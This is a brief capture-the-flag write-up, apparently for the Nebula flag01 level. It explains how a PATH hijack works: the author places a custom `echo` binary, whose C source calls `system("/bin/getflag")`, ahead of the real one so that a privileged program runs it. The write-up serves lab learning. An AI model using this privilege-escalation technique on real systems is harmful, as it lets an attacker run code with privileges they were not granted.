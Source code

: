 The program executed `/usr/bin/env echo <args>` which means we can modify our
PATH with a custom binary named `echo` and that's basically what I did. I wrote
an `echo.c` with the following contents:
{{{c
    #include <stdlib.h>

    int
    main(void)
    {
        system("/bin/getflag");
    }
}}}

compiling and executing `/home/flag01/flag01` tells us that we were successful
with the exploit.

